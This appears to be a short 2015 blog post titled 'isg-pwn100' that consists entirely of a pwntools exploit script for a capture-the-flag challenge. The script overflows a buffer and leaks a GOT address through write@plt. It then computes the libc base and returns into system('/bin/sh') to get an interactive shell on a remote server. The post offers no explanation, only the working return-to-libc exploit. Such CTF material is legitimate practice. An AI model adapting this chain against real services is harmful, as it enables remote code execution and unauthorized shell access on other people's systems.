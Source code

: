 ```yaml
---
layout: post
title: "isg-pwn100"
date: 2015-10-19 00:24:00 +0800
comments: true
categories: 
---
```


	from pwn import *
	from binascii import *

	write_plt = 0x8048370
	read_got = 0x804A00C
	pop3_ret = 0x0804853d
	main = 0x0804847D


	libc = ELF('libc-2.19.so')
	p = remote('202.120.7.145', 9991)


	#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
	#p = remote('127.0.0.1', 6666)
	#p = process('./pwnme')
	payload  = ''
	payload += 'cccc'*5
	payload += p32(write_plt)
	payload += p32(main)
	payload += p32(1)
	payload += p32(read_got)
	payload += p32(4)

	raw_input()
	print p.recvuntil(':')
	p.sendline(payload)
	d = p.recv(1024)
	d += p.recv(1024)
	read_r = (u32(d[1:5]))

	ite = libc.search('/bin/sh')
	base = read_r - libc.symbols['read']
	print ('base',hex(base))
	system_r = base + libc.symbols['system']
	print ('system',hex(system_r))
	binsh_r = base + ite.next()
	print ('binsh',hex(binsh_r))


	payload  = ''
	payload += 'cccc'*3
	payload += p32(system_r)
	payload += p32(binsh_r)
	payload += p32(binsh_r)
	payload += p32(binsh_r)

	print p.recvuntil(':')
	p.sendline(payload)
	p.interactive()


